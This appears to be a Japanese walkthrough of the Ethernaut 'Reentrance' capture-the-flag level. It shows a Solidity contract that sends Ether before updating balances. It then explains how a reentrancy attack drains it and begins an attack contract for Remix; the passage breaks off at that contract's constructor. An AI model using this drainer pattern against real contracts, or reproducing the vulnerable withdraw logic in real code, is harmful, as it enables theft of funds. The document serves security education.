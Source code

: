 <br/>

- コントラクト:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 何が起こるかというと、攻撃に使用される契約の残高に`value`を設定するために`donate`を呼び出す必要があります。
- その後、`withdraw`を呼び出して契約の中身を空にします。状態の変更が後で起こるため、`receive`関数が呼び出され、攻撃された契約の残高が`0.001eth`未満になるまで攻撃が繰り返されます。

- 以下を Remix にコピーしてください:

1. デプロイしてください。
2. `donate` 関数と `withdraw` 関数を攻撃して、契約から資金を引き出します。
3. その後、`compensation` 関数を通じて資金をオーナーに転送します。

- `ReentranceAttack`は Ethernaut 上で作成されたコントラクトインスタンスのアドレスを入力として取ります。送信する Eth の量、`1000000000000000`も`Value`に入力する必要があります。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
```